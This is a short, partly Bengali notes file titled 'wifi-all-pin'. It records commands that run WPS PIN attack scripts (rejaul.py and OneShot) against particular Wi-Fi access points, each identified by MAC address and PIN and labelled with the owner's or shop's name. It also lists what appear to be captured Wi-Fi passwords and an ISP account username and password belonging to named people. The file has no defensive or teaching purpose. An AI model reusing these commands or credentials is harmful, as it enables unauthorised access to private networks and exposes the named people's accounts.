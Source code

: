 # wifi-all-pin 

## একটু স্লো দোকানের:-  

``` sudo python rejaul2712/rejaul.py -i wlan0 -b 84:D8:1B:AA:9D:A8 -B -p 06273385 ```

## saim solobd বাগিনা:-
 
```sudo python rejaul2712/rejaul.py -i wlan0 -b CC:2D:21:62:13:58 -B -p 55157698 ```
sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305


``` rayhan password:- Anas2520


```username:- 100886@naim.sol-bd.com ```

``` passwod:- 1122 ``` sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

Rubrl wifi:- 21595684

